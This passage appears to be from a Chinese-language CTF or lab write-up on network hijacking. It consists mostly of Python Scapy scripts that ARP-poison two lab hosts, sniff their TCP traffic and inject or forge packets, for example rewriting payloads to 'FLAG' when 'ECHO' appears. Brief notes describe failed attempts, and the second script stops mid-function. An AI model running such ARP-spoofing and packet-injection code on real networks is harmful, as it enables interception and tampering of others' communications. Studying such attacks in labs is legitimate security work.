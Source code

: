 ```python
				print(data)
			#send(packet,iface="eth0")
		else :
			if ip_src == ip2 and ip_dst ==ip1:
				#print("{ip2} to {ip1}")
				if packet.haslayer(Raw):
					copy = packet.copy()
					data = copy[Raw].load
					print(data)
					if b"ECHO" in data:
						print("hit!!!!!!!!!!!!!!!!!----------------------++++++++++++++++++")
						copy.show()
						copy[Raw].load = b"FLAG\n"
						del copy[IP].chksum
						del copy[TCP].chksum
						del copy[IP].len
						copy.show2()
						sendp(copy,iface="eth0") # 原本想要劫持，但是出了问题，但是发现通过send发送的报文无法被wireshark截获，然而sendp发送的被识别为不合法的报文，很怪
			#send(packet,iface="eth0")
arp_thread=threading.Thread(target=arp_spoof)
arp_thread.start()

sniff(prn=process_packet,iface="eth0")
```
sendp是可以发的，可以通过伪造发送`ACK和 PSH,ACK`报文来篡改消息（提早建链），然而还是没什么卵用，有一个问题是**原通信机在收不到报文后，会发送RST消息，导致链路中断**<br>
截获tcp报文，抢先发送占据链路<br>
```python
from scapy.all import *
import threading
import time
import sys
conf.verb= 0
ip1= "10.0.0.3"	
ip2= "10.0.0.4"
def arp_poison(target_ip,spoof_ip):
	arp=ARP(op="is-at",psrc=spoof_ip,pdst=target_ip)
	ether = Ether(dst="ff:ff:ff:ff:ff:ff")
	packet= ether/arp
	# packet.show()
	sendp(packet,iface="eth0")

def arp_spoof():
	while True:
		# print("start poisioning...")
		arp_poison(ip1,ip2)
		arp_poison(ip2,ip1)
		time.sleep(1)

def process_packet(packet):
	if IP in packet:
		ip_src = packet[IP].src
		ip_dst = packet[IP].dst
		if ip_src== ip1 and ip_dst == ip2:
			#print("{ip1} to {ip2}")
			if packet.haslayer(Raw):
				data = packet[Raw].load
				print(data)
				if b"COMMANDS" in data:
					print("hit!!!------------------------")
					packet[IP].src = ip2
					packet[IP].dst = ip1
					sport = packet[TCP].sport
```